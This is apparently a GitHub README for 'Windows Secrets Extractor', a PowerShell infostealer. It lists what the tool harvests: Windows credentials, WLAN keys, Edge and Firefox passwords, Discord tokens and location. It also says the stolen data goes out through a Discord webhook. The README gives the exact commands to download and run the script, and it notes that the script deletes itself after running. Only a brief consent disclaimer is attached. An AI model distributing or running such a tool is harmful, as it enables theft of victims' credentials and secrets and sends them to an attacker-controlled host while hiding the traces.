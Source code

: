 # Windows Secrets Extractor

**Windows Secrets Extractor** allows you to get (in clear text) windows "secrets" informations such as :
- Windows informations (Os name & version, Username, Domain etc...)
- Windows Credentials
- Windows WLAN & Keys
- Edge Credentials
- FireFox Credentials
- Computer Location

***

### Requirements
> (Optionnal) Python 3, if you want Discord Token Grab


### Configuration
- Create a Discord WebHook [help](https://support.discord.com/hc/en-us/articles/228383668-Intro-to-Webhooks)
- Adapt line ``3`` and enter your WebHook URL.

***

### Usage
1. Download the script :

```
Invoke-WebRequest https://raw.githubusercontent.com/danglock/Windows-Secrets-Extractor/main/extractor.ps1 -outfile $env:USERPROFILE\extractor.ps1
```

3. Run the Script :

```
cd $env:USERPROFILE;.\extractor.ps1
```

Note: the script will auto-destroy after execution

***
Be careful, I am not responsible for your use of this script.
Please do not use it against machines whose owner has not given you their consent
